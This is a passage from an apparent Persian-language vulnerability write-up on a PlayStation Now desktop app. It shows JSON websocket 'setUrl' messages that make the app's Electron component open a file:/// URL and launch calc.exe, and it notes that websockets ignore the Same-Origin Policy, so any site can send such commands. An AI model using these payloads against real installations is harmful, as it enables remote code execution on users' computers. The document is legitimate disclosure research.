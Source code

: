 * https://bugs.chromium.org/p/project-zero/issues/detail?id=693

اگر یک فایل اجرایی را با این دستور باز کنیم، ویندوز خود آن فایل را اجرا می‌کند.
پس دستور زیر ماشین حساب ویندوز را اجرا می‌کند.

```json
{
  "command": "setUrl",
  "params": {
    "url": "file:///c:/windows/system32/calc.exe"
  },
  "source": "AGL",
  "target": "QAS"
}
```

با استفاده از این دستور دیگر نیاز به `nodeIntegration` هم نداریم. اما این دستور
یک محدودیت بزرگ دارد. فقط می‌توانیم فایل اجرا کنیم و نمی‌توانیم به فایل اجرایی
پارامتر و یا سوییچ بفرستیم.

### مشکل سوم: اجرای کد روی ماشین توسط دستورات websocket
در Burp دیدم که برنامه AGL (الکترون) به QAS می‌گوید که یک وب سایت را باز کند. در
ابتدا من به مبدا و مقصد دقت نکردم و بی‌خیال باگ شدم چون بازکردن سایت در QAS
فایده‌ای برای من نداشت. اما چند ساعت بعد وقتی کار دیگری انجام می‌دادم یادم آمد
که چرا مقصد را AGL (برنامه الکترون) نگذارم؟ با فرستادن پیام پایین وب سایتی که در
بخش اول ساخته بودم (ماشین حساب ویندوز را اجرا می‌کرد) در برنامه الکترون باز کردم
و ماشین حساب ویندوز اجرا شد.

```json
{
  "command": "setUrl",
  "params": {
    "url": "https://example.net"
  },
  "source": "AGL",
  "target": "QAS"
}
```

بعد از این کد یک برنامه چت بر پایه websocket را دستکاری کردم و در سطل (؟) s3
دیگری قرار دادم. بعد از باز کردن این وب سایت در مرورگر روی کامپیوتری که برنامه
psnow در حال اجرا بود می‌توانستم با سرور websocket صحبت کنم و به آن دستور
بفرستم.

#### امنیت websocket
اولین مرحله در ایجاد ارتباط با یک سرور websocket، فرستادن یک ریکوئست HTTP با
تعدادی هِدِر (header) خاص است. در حالت عادی Same-Origin Policy یا SOP مرورگر به
اسکریپت‌های یک اریجین اجازه نمی‌دهد تا با اریجین دیگر ارتباط برقرار کنند (بحث
SOP مفصلتر از این است که اینجا مطرح کنم ولی حتماً در مورد آن بخوانید چون یکی از
مهمترین بخشهای امنیت مرورگر و وب است). **websocket ها شامل SOP نمیشوند**. یعنی
هر وب سایت میتواند با هر سرور websocket ارتباط برقرار کند.
